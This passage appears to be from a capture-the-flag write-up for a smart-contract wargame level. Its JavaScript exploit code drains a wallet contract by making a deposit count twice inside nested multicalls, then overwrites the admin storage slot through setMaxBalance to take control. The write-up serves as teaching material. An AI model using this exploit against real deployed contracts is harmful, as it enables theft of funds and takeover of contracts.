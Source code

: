 ```js
// contract balance
const _b = web3.utils.toWei(await getBalance(contract.address));
// 2 times contract balance
const _2b = web3.utils.toBN(_b).add(web3.utils.toBN(_b));
await contract.multicall(
  [
    // first deposit
    (
      await contract.methods['deposit()'].request()
    ).data,
    // multicall for the second deposit
    (
      await contract.methods['multicall(bytes[])'].request([
        // second deposit
        (
          await contract.methods['deposit()'].request()
        ).data,
      ])
    ).data,
    // withdraw via execute
    (
      await contract.methods['execute(address,uint256,bytes)'].request(player, _2b, [])
    ).data,
  ],
  {value: _b}
);
```

Thanks to the `multicall`, the attack will be executed in a single transaction too :) Afterwards, we can confirm via `await getBalance(contract.address)` that the balance of the contract is now 0.

We are ready for the next step, which is to call `setMaxBalance`. Whatever value we send here will overwrite the `admin` value, so we just convert our address to an `uint256` and call this function:

```js
await contract.setMaxBalance(web3.utils.hexToNumberString(player));
// see that admin value is overwritten
await web3.eth.getStorageAt(contract.address, 1);
```

That is all!
